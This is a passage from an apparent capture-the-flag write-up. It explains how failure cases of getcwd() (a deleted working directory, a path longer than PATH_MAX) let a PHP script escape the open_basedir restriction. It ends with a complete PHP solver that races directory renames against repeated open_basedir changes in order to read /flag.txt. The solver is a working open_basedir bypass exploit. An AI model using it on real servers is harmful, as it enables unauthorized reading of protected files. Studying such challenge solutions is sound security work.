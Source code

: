 Looking at the RETURN VALUE section, it states "On failure, returns NULL."

The simplest case where an error occurs is "The current working directory has been unlinked," which occurs when the current working directory has been deleted.

Another case is "The size of the null-terminated absolute pathname string exceeds PATH_MAX bytes," which occurs when the current pathname exceeds PATH_MAX (=4096, `linux/limits.h`).

The first case is [HexF](https://hexf.me/)'s idea, and the second case is the challenge author's (payload) idea.

If you implement the above ideas in code, you can bypass open_basedir to read the flag.

## Solver

```php
<?
chdir("/tmp");

$allowed_path = "/tmp";

@mkdir("start/");
chdir("start/");
$cur_dir = getcwd();
$cur_dir_len = strlen($cur_dir);

$magic_depth = str_repeat(str_repeat("a", 249) . "/", 16 - floor($cur_dir_len / 250));
@mkdir($magic_depth, 0755, true);

chdir($magic_depth);

$pid = pcntl_fork();
var_dump($pid);
if ($pid == -1)
    die;
if ($pid == 0) {
    for ($i = 0; $i < 25; $i++) {
        usleep(300);
        $cur_basedir = ini_get("open_basedir");
        ini_set("open_basedir", $cur_basedir . ":../");
    }
    chdir($allowed_path);
    chdir("../");

    $content = @file_get_contents("/flag.txt");
    if (!$content)
        die("failed\n");
    echo $content;
} else {
    chdir("/tmp");
    for ($i = 0; $i < 30000; $i++) {
        usleep(30);
        rename("start", str_repeat("x", 250));
        rename(str_repeat("x", 250), "start");
    }
}
?>
```
